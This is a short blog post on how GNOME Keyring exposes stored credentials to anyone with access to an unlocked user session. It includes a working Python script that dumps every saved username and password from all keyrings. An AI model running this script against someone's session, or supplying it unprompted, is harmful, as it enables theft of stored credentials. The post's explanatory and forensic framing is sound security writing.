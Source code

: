 ```yaml
---
title:  "Extracting GNOME Keyring Credentials"
---
```


![Logo](/assets/images/keyring.jpg)

## Context
* Gnome Keyring is a (good:wink:) daemon that stores different security credentials encrypted in a file in the user’s home directory. It uses the login password for encryption, and after the keyring is decrypted at logon, the password is no longer necessary in the current user’s context. 
* Since usually password managers and tools of this kind are more for convenience than security, an attacker/forensic investigator with local access could also easily extract specific credentials from the GUI application (_Applications -> Accessories -> Passwords and Encryption Keyrings_), without being prompted for anything to authorize him.
* Gnome Keyring does not protecting against active attacks (when the attacker has access to user’s session).This is explained clearly in the [GNOME Keyring Security Philosophy](https://wiki.gnome.org/Projects/GnomeKeyring/SecurityPhilosophy):
> An active attacker might install an application on your computer, display a window, listen into the X events going to another window, read through your memory, snoop on you from a root account etc.
* The analogous application for KDE is [KWallet](https://utils.kde.org/projects/kwalletmanager/), which workes by the same principles. Oh, and there are python bindings is a python binding for this too.

## Dump keyring credentials using Python
```python
#
# Dumps all keys stored in Ubuntu keyrings
#

import gnomekeyring
 
def extract_keys():
    ''' Extract the usernames and passwords from all the keyrings'''
    
    for keyring in gnomekeyring.list_keyring_names_sync():
    # Get keyring name - "Login" is the default passwords keyring
        kr_name = keyring.title()
        print "Extracting keys from \"%s\" keyring:" % (kr_name)
        
        items = gnomekeyring.list_item_ids_sync(keyring);
        if len(items) == 0:
            print "Keyring \"%s\" is empty\n" % (kr_name)
            # If keyring is empty, continue to next keyring
            continue
        
        for i in range(0, len(items)):
            # Get information about an item (like description and secret)
            item_info = gnomekeyring.item_get_info_sync(keyring, items[i])
            description = item_info.get_display_name()
            password = item_info.get_secret()

            # Get attributes of an item (retrieve username)
            item_attr = gnomekeyring.item_get_attributes_sync(keyring, items[i])
            username = item_attr['username_value']

            print "[%d] %s" % (i, description)
            print " %s:%s" % (username, password)
        print ""
 
if __name__ == '__main__':
    extract_keys()
```
